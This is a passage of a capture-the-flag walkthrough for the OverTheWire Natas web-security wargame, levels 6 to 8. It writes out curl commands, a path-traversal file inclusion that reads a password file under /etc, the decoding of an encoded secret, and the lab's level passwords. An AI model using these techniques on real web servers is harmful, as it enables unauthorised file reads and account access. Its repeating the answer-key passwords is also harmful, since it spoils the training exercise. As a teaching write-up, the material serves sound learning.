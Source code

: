 Access the source code and find an `include` statement.

```
$ curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/includes/secret.inc
$secret = "FOEIUWGHFEEUHOFUOIU";
```

```
$ curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/ -d 'secret=FOEIUWGHFEEUHOFUOIU&submit=Submit'
```

```
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```

# 8. Level 7

```
$ curl -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 'http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8'
```

```
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```

# 9. Level 8

```php
<?php
// http://natas8.natas.labs.overthewire.org/index-source.html
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```

Decode the `secret`.

```
$ echo 3d3d516343746d4d6d6c315669563362 | xxd -p -r | rev | base64 -d
oubWYf2kBq
```
